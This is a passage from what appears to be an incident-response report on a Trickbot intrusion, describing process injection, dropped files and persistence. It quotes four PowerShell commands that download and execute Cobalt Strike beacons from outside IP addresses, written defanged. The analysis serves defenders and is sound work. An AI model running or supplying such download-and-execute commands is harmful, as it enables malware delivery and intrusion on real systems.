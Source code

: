 The Trickbot payload (1a5f3ca6597fcccd3295ead4d22ce70b.exe) was manually executed on a single endpoint. The visual representation of process tree execution pattern on beachhead can be seen below. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/image-53.png)](https://thedfirreport.com/wp-content/uploads/2021/07/image-53.png)
Upon execution, the payload injects into the wermgr.exe process.   
   
[![](https://thedfirreport.com/wp-content/uploads/2021/08/4778_002.png)](https://thedfirreport.com/wp-content/uploads/2021/08/4778_002.png)  
 






The injected wermgr.exe process then creates a new folder in the user’s AppData directory. As typically seen in Trickbot infections, it drops a copy of itself into this folder along with its encrypted config (settings.ini) and a batch file (launcher.bat). 






[![](https://thedfirreport.com/wp-content/uploads/2021/07/image-52.png)](https://thedfirreport.com/wp-content/uploads/2021/07/image-52.png)









   
Trickbot utilized the same instance of wermgr.exe to load Cobalt Strike beacons into memory using PowerShell, which remained active throughout the intrusion: 







```
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://23.19.227[.]147:80/atryhdthgfhfhf'))"   
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://108.62.118[.]247:80/adfsdgsdg'))"   
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://5.199.162[.]3:80/adhrdbh'))"   
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://212.114.52[.]180:80/atyukloyuiluiyluiyl'))" 
```





The fake setup installer (Setup1.exe) which was seen during the lateral movement stage, was dropped and executed on multiple systems, including the domain controllers. 


### Persistence


The launcher.bat file, which triggers the Trickbot executable, is set to start via a scheduled task: 
